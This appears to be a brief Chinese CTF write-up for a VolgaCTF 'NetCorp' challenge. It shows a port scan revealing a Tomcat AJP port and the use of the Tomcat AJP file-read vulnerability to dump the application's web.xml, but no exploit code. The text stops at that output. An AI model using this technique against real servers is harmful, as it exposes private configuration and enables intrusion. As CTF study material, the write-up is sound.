 这题挺简单的,但是我还是搞了好久,对jsp和题目的cve一点都不熟悉,搞得我写个payload都百度半天

端口扫描发现:

```
8009/tcp open     ajp13
9090/tcp open     zeus-admin
```

tomcat ajp前段时间刚好出了个文件读取/包含的漏洞

试了一下,确实存在这个洞

先读取/WEB-INF/web.xml

```xml
<!DOCTYPE web-app PUBLIC
 "-//Sun Microsystems, Inc.//DTD Web Application 2.3//EN"
 "http://java.sun.com/dtd/web-app_2_3.dtd" >

<web-app>
  <display-name>NetCorp</display-name>


  <servlet>
        <servlet-name>ServeScreenshot</servlet-name>
        <display-name>ServeScreenshot</display-name>
        <servlet-class>ru.volgactf.netcorp.ServeScreenshotServlet</servlet-class>
  </servlet>

  <servlet-mapping>
        <servlet-name>ServeScreenshot</servlet-name>
        <url-pattern>/ServeScreenshot</url-pattern>
  </servlet-mapping>


        <servlet>
                <servlet-name>ServeComplaint</servlet-name>
                <display-name>ServeComplaint</display-name>
                <description>Complaint info</description>
                <servlet-class>ru.volgactf.netcorp.ServeComplaintServlet</servlet-class>
        </servlet>

        <servlet-mapping>
                <servlet-name>ServeComplaint</servlet-name>
                <url-pattern>/ServeComplaint</url-pattern>
        </servlet-mapping>

        <error-page>
                <error-code>404</error-code>
                <location>/404.html</location>
        </error-page>



</web-app>
```
